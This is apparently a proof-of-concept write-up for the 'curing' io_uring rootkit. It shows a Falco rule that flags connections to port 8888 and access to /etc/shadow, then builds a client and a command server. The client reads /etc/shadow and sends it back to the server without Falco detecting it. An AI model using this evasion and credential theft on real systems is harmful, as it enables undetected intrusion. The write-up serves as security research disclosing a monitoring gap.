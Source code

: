 # POC bypassing Falco

As a POC, we will bypass Falco by running the latest version Falco on the machine with the following rules:

* Detect any TCP connection attempts to port 8888
* Detect access to /etc/shadow 

## Running Falco
Let's start by running Falco on the machine where `curing` is running.

To run Falco, we will use the following command:
```shell
docker run --rm -i -t --name falco --privileged  \
    -v $(pwd)/falco_custom_rules.yaml:/etc/falco/falco_rules.local.yaml \
    -v /var/run/docker.sock:/host/var/run/docker.sock \
    -v /dev:/host/dev -v /proc:/host/proc:ro -v /boot:/host/boot:ro \
    -v /lib/modules:/host/lib/modules:ro -v /usr:/host/usr:ro -v /etc:/host/etc:ro \
    falcosecurity/falco-no-driver:0.39.2 falco
```

The `falco_custom_rules.yaml` file contains the following rule to detect any TCP connection attempts to port 8888 (detecting access to `/etc/shadow` is built-in):
```yaml
- rule: TCP Connection to Port 8888
  desc: Detect any TCP connection attempts to port 8888
  condition: >
    evt.type=connect and 
    evt.dir=< and 
    fd.type=ipv4 and 
    fd.sport=8888 and 
    fd.l4proto=tcp
  output: >
    TCP connection to port 8888 detected 
    (process=%proc.name 
    command=%proc.cmdline 
    connection=%fd.name 
    container=%container.info 
    user=%user.name)
  priority: NOTICE
  tags: [network]
```

## Showing regular Falco alerts
To show that Falco is working, we ran `nc` to connect to port 8888 and access `/etc/shadow`:

https://github.com/user-attachments/assets/49560105-76e3-4972-adcf-cb325b234cbe

We can see that Falco detected the connection to port 8888 and access to `/etc/shadow` as expected.

## Bypassing Falco
To bypass Falco, we will run the `curing` client and server.
To build the `curing` client and server, we will use the following commands:
```shell
make all
```

To run the `curing` server, we will use the following command:
```shell
./build/server
```

To control the server port, edit the server.port in `cmd/config.json`, the default port is 8888.

To run the `curing` client, we will use the following command:
```shell
./build/client
```
It will read the `cmd/config.json` file to connect to the server so be sure to edit the details in the file.

For the sake of this POC, the server is just going to send one command to the client to read `/etc/shadow` and send it back to the server.
```go
commands := []common.Command{
  common.ReadFile{Id: "read shadow", Path: "/etc/shadow"},
}
```
You can edit the commands in the `pkg/server.go` file.

The `curing` rookit is using `io_uring` to connect to the server and to read the file `/etc/shadow`, this means that "0" syscalls (which are related to the attack) are made and Falco will not detect the attack.

https://github.com/user-attachments/assets/858dbc60-ffa4-445e-a354-a08caa83b102

As we can see, Falco is not detecting the attack because the attack is not using any syscalls that Falco is monitoring.

## Conclusion
In this POC, we bypassed Falco by using `io_uring` to connect to the server and read the file `/etc/shadow`. This means that Falco is not able to detect the attack because the attack is not using any syscalls that Falco is monitoring, this attack technique is also bypassing other security tools that are monitoring syscalls such as `tetragon` by Cilium.
